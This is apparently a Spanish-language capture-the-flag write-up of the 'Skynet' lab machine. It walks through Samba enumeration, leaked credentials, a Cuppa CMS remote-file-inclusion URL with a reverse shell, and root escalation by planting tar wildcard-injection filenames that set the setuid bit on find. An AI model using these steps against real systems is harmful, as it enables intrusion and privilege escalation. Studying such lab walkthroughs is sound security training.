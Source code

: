 # Skynet - rmartinez 18/01/2022

## Recon inicial

Vemos que tiene varios servicios:

- SSH en el 22
- Webserver en el 80
- Samba en el 445
- Pop3 en el 110
- IMAP en el 143

Hacemos dirsearch en el apache y no vemos nada relevante excepto un squirrelmail.
Vamos a enumerar samba, vemos que hay una share anonymous, nos bajamos los ficheros y vemos que hay credenciales en log1.txt.

Hacemos un smb-enum-users con nmap y vemos que hay un usuario llamado SKYNET\milesdyson.

Nos logueamos a continuación en squirrelmail con el usuario milesdyson y probamos la lista de credenciales, encontramos que la primera password es la correcta.

Al entrar en el mail obtenemos la password del samba:

```
)s{A&2Z=F^n_E.B`
```

Con la password de samba y el usuario enumerado anteriomente nos bajamos la unidad de milesdyson y vemos que tiene un fichero interesante important.txt, ahí vemos que hay un directorio oculto: 

```
/45kra24zxs28v3yd
```

Hacemos dirsearch sobre este directorio y vemos un directorio /administrator que tiene un Cuppa CMS. Buscamos en exploit-db una vulnerabilidad para este servicio y encontramos el exploit
25971, un RFI en la ruta:

```

10.10.193.24/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=<SHELL>

```

Generamos shell de pentestmonkey, abrimos netcat y obtenemos acceso a la máquina.

Enumerando la máquina vemos que haciendo un /etc/crontab vemos que root ejecuta un script backup.sh en /home/milesdyson/backup.sh, que hace un:

```
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Pues bien, esto es vulnerable a wildcards ya que se usa el parámetro *. Creamos dos ficheros en /var/www/html:

```
touch "--checkpoint-action=exec=sh test.sh"
touch "--checkpoint=1"
echo "chmod u+s /usr/bin/find"
```

Esperamos a que se ejecute el crontab y ya tenemos el binario find con permisos de root. Ejecutamos:

```
find . -exec /bin/sh \; -quit.
```

Y gg pwn3d.